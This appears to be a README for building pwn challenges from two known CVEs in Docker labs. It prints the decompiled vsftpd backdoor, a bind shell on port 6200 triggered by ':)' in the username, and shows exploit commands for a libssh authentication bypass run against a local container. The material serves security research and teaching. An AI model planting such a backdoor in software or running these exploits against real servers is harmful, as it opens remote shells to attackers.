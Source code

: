 # CVE-2011-2523 : vsftpd Backdoor Command Execution (cve-1)
Run [docker image](https://github.com/Anon-Exploiter/vulnerable-packages) and run [exp.py](https://github.com/padsalatushal/CVE-2011-2523), you can get a shell on the port '6200' from the docker container.
We decompile vsftpd and get the decompiled file: cve1de.c. We can find the backdoor:
```c
//----- (0000000000016100) ----------------------------------------------------
void __noreturn sub_16100()
{
  int v0; // eax
  int v1; // ebp
  int v2; // ebx
  struct sockaddr v3; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  v0 = socket(2, 1, 0);
  if ( v0 >= 0 )
  {
    *(_QWORD *)&v3.sa_data[2] = 0LL;
    *(_DWORD *)&v3.sa_data[10] = 0;
    v1 = v0;
    *(_DWORD *)&v3.sa_family = 941096962;
    if ( bind(v0, &v3, 0x10u) >= 0 && listen(v1, 100) != -1 )
    {
      while ( 1 )
      {
        v2 = accept(v1, 0LL, 0LL);
        close(0);
        close(1);
        close(2);
        dup2(v2, 0);
        dup2(v2, 1);
        dup2(v2, 2);
        execl("/bin/sh", "sh", 0LL);
      }
    }
  }
  exit(1);
}

//----- (000000000000CF10) ----------------------------------------------------
__int64 __fastcall sub_CF10(__int64 a1)
{
  unsigned int v1; // ebx
  __int64 v2; // r12

  if ( !*(_DWORD *)(a1 + 8) )
    return 0LL;
  v1 = 0;
  while ( 1 )
  {
    v2 = v1;
    if ( (unsigned int)sub_13490(*(char *)(*(_QWORD *)a1 + v1)) )
      break;
    ++v1;
    if ( *(_BYTE *)(*(_QWORD *)a1 + v2) == 58 && *(_BYTE *)(*(_QWORD *)a1 + v1) == 41 )
      sub_16100();
    if ( *(_DWORD *)(a1 + 8) <= v1 )
      return 0LL;
  }
  return 1LL;
}
// 16100: using guessed type void __noreturn sub_16100(void);
```

# CVE-2018-10933 : libssh Authentication Bypass Vulnerability (cve-2)
[Setup and exploit](https://github.com/vulhub/vulhub/tree/master/libssh/CVE-2018-10933):

```
docker compose up -d
```

```
python .\exp.py 127.0.0.1 2222 "ps aux"
```

In the container, the target SSH server run by:
```
/usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 22 0.0.0.0
```
But the core bug is not in `ssh_server_fork`, it is in libssh. So we statically link libssh into `ssh_server_fork_static` by [CMakeLists_static.txt](./cve-2/libssh-0.8/static/CMakeLists_static.txt), and we use `ssh_server_fork_static` as Pwn Challenge file.